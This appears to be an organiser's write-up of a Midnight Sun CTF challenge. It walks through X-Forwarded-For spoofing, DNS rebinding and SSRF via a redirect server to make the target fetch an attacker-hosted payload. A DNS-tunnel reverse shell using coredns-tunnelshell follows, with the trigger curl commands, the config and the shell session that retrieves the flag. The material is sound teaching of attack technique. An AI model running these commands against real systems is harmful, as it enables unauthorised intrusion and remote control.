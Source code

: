 #Exploitation

## Putting together the inital request:

1) 
X-Forwarded-For bypass:
- Just include the IP in the header

2) IP check bypass
Include multiple IPs in a domain or use DNS rebinding (like rbndr.us). DNS Rebinding was the intended solution

3) Triggring detonate and bypass the 127.0.0.1 ip check:

Host redir.py which will send a 302 redirect to SSRF the webserver into making a local request calling the detonate endpoints.

python3 redir.py 80 http://127.0.0.1:15555/detonate?name=supersecretabc123xyz\&url=http://0x0y0z/payload


Our trigger looks like this
curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/

## Stage 2 -- Detonator

The hint for the challenge says `DeNiS Sergeev wants a secret mission payload.`, alluding to DNS. 

1) Run coredns with the https://github.com/adc/coredns-tunnelshell plugin installed. 

You can use a configuration like this:

tunnel.yourdomain.com {
  hosts {
	95.173.136.72 kgb.tunnel.yourdomain.com
	1.2.3.4 kgb.tunnel.yourdomain.com
	fallthrough
  }

  tunnelshell

  log
  errors
}


curl -H "X-Forwarded-For: 95.173.136.71" kgb.target:15555/scan?url=http://0x0y0z.d5184c01.rbndr.us/


2) Connect to the coredns socket and wait for a connection to show up
nc localhost 1337

In coredns you'll know when the reverse tunnel works when you see requests coming in

[INFO] 162.158.104.220:34913 - 24862 "TXT IN 2420-0-660faeac.tunnel.yourdomain.com. udp 63 true 1452" NOERROR qr,aa 100 0.000447496s
[INFO] 162.158.104.148:59983 - 7850 "TXT IN 00-1-2317440.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000248969s
[INFO] 162.158.104.148:22594 - 53984 "TXT IN 00-2-5d586564.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000110636s
[INFO] 162.158.104.148:63962 - 48204 "TXT IN 00-3-105ae3a3.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00010058s
[INFO] 162.158.104.149:65071 - 57369 "TXT IN 00-4-22e00cc.tunnel.yourdomain.com. udp 60 true 1452" NOERROR qr,aa 94 0.000239648s
[INFO] 162.158.104.148:29410 - 15723 "TXT IN 00-5-6c60fe9a.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.00022385s
[INFO] 162.158.104.220:46404 - 39031 "TXT IN 00-6-4aae60dc.tunnel.yourdomain.com. udp 61 true 1452" NOERROR qr,aa 96 0.000100155s

```
bash-3.2# nc localhost 1337
[+] connected to coredns-tunnelshell

$ uname -a
Linux dbed26620181 5.17.0-051700-generic #202203202130 SMP PREEMPT Sun Mar 20 21:33:41 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
$ ls
bin	     etc    lib64				 mnt   run   tmp
boot	     home   libx32				 opt   sbin  usr
detonations  lib    media				 proc  srv   var
dev	     lib32  midnightsun.ctf.kgbfskfsb_detonator  root  sys
$ ls -al
total 6416
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 .
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 ..
drwxr-xr-x   1 root   root    4096 Apr  4 04:30 .do
-rwxr-xr-x   1 root   root       0 Apr  4 04:31 .dockerenv
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 bin -> usr/bin
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 boot
drwxr-xr-x   2 nobody root    4096 Apr  4 04:20 detonations
drwxr-xr-x   5 root   root     340 Apr  4 04:31 dev
drwxr-xr-x   1 root   root    4096 Apr  4 04:31 etc
drwxr-xr-x   2 root   root    4096 Nov  8 11:34 home
lrwxrwxrwx   1 root   root       7 Mar 15 11:49 lib -> usr/lib
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib32 -> usr/lib32
lrwxrwxrwx   1 root   root       9 Mar 15 11:49 lib64 -> usr/lib64
lrwxrwxrwx   1 root   root      10 Mar 15 11:49 libx32 -> usr/libx32
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 media
-rwxr-xr-x   1 root   root 6501290 Apr  4 04:30 midnightsun.ctf.kgbfskfsb_detonator
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 mnt
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 opt
dr-xr-xr-x 418 root   root       0 Apr  4 04:31 proc
drwx------   2 root   root    4096 Mar 15 11:52 root
drwxr-xr-x   5 root   root    4096 Mar 15 11:52 run
lrwxrwxrwx   1 root   root       8 Mar 15 11:49 sbin -> usr/sbin
drwxr-xr-x   2 root   root    4096 Mar 15 11:49 srv
dr-xr-xr-x  13 root   root       0 Apr  4 04:31 sys
drwxrwxrwt   1 root   root    4096 Apr  3 00:05 tmp
drwxr-xr-x  14 root   root    4096 Mar 15 11:49 usr
drwxr-xr-x   1 root   root    4096 Mar 15 11:52 var
$ ls -R .do
.do:
you

.do/you:
see

.do/you/see:
the

.do/you/see/the:
answer

.do/you/see/the/answer:
runme
$ .do/you/see/the/answer/runme
1070352547 +1 = ?
1070352548
midnight{flag}

```


## MISC:

Some teams were using chashell and it failed for them. Chashell has a bug where they dont set the authoritative flag.
You can patch their server code with	

```
m.MsgHdr.Authoritative = true 
```


## Other solutions

Some teams decided to re-exploit 'kgbfskfsb' as an alternative to DNS. This is a bit harder and unreliable, but a very valid
way to exfiltrate data back out of the system. When exploiting the service it would fetch the team's URL to relay information.

The docker set up does not stop this



